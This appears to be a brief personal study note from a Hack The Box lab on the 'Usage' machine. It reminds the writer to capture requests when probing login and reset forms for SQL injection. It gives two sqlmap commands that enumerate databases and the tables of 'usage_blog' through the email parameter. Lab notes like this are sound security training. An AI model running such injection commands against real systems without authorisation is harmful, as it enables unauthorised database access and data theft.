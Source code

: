 **Habit Building**
Remember to capture a request when looking for SQLi in login, reset forms
Example: [[Usage-Notes]]
```bash
"Get-Database": sqlmap -r Documents/HTB/Usage/email_sql --batch --level 3 --dbs
"Get Tables": sqlmap -r Documents/HTB/Usage/email_sql -p email --batch --level 3 -D usage_blog --tables --threads=10 
```
